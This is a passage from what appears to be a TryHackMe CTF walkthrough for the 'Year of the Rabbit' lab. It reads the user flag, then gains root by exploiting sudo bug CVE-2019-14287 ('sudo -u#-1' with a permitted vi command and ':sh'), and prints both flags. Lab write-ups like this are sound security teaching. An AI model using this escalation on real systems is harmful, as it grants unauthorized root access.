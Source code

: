 ```
uid=1001(gwendoline) gid=1001(gwendoline) groups=1001(gwendoline)
gwendoline@year-of-the-rabbit:~$ ls
user.txt
gwendoline@year-of-the-rabbit:~$ cat user.txt
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

### 2 -- What is the root flag?

Once we are logged in as gwndoline, lets check what we can run as root:

```bash
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

Interesting, this looks like sudo is vulnerable to [CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287). So what we can do, is run that particular command to vi the user flag, but once in the vi editor we can execute arbitrary commands which in turn will be ran as the root user.

First to exploit the vulnerability we will need to specify the exact comand `/usr/bin/vi /home/gwendoline/user.txt` as the payload after the CVE-2019-14287 exploit `sudo -u#-1`:

```bash
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

After running this command we will get dropped into the vi editor with the `user.txt` file. Once there, we can leverage the `:sh` command within vi that will start a shell specified by the `$SHELL` variable:

![run_sh](https://user-images.githubusercontent.com/32188816/82776093-0095d300-9e07-11ea-8b84-01bc2b853f0d.png)

Since vi is being run as root due to the CVE-2019-14287 exploit, we get a root shell and can obtain the flag:

```bash
root@year-of-the-rabbit:/home/gwendoline# id
uid=0(root) gid=0(root) groups=0(root)
root@year-of-the-rabbit:/home/gwendoline# cd /root
root@year-of-the-rabbit:/root# ls
root.txt
root@year-of-the-rabbit:/root# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
